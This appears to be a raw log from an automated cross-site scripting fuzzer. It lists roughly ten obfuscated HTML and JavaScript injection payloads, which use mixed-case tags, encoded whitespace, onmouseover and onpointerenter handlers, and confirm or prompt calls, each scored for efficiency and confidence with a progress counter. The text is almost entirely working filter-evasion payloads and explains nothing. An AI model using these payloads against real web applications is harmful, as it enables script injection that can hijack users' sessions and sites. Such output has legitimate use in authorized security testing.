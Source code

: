 ------------------------------------------------------------
 Payload: <D3v/+/oNMOuSeOver%0d=%0d(confirm)()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 85/1536
 
------------------------------------------------------------
 Payload: <html/+/oNPointeRENter+=+[8].find(confirm)// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 86/1536
 
 Progress: 87/1536
 
------------------------------------------------------------
 Payload: <D3V%0donmousEOVeR%09=%09[8].find(confirm)//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 88/1536
 
------------------------------------------------------------
 Payload: <d3V%0donPoInTErEntER%09=%09a=prompt,a()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 89/1536
 
------------------------------------------------------------
 Payload: <Html%0aONmoUSEovER%0a=%0aa=prompt,a()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 90/1536
 
------------------------------------------------------------
 Payload: <D3V%0aOnmousEoVER%0d=%0d[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 91/1536
 
------------------------------------------------------------
 Payload: <D3V/+/oNmouSEOVER%09=%09confirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 92/1536
 
------------------------------------------------------------
 Payload: <dETaILs%0dONpOINTeRENTEr%0d=%0da=prompt,a()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 93/1536
 
------------------------------------------------------------
 Payload: <deTaiLS/+/onpointerEntER+=+confirm()// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 94/1536
 